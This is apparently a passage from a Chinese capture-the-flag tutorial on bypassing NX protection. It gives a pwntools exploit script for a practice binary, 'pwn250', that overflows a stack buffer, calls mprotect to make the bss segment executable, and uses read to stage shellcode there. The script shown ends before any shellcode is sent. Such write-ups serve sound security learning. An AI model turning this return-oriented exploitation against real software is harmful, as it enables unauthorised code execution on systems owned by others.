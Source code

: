 ![](/picture/rop/2021-03-28-通过mmap&mprotect来绕过nx/5.png)



下面用mprotect来做刚刚那道题目

思路，把bss段的权限用mprotect改为rwx，把shellcode写到bss段上再返回到shellocde上。

```python
from pwn import*
context.log_level = 'debug'
context.binary = './pwn250'
p = process('./pwn250')
elf = ELF('./pwn250')
mprotect_addr = elf.sym['mprotect']
main_addr = elf.sym['main']
read_addr = elf.sym['read']
bss_addr = 0x080ec000


p.sendlineafter(']',str(0x100))
payload = 'a'*(58+4)+p32(mprotect_addr)+p32(main_addr)+p32(bss_addr)+p32(0x1000)+p32(7)
p.sendafter(']',payload)

p.sendlineafter(']',str(0x100))
payload = 'a'*(58+4)+p32(read_addr)+p32(bss_addr)+p32(0)+p32(bss_addr)+p32(0x100)
p.sendafter(']',payload)

#gdb.attach(p,'b print')
```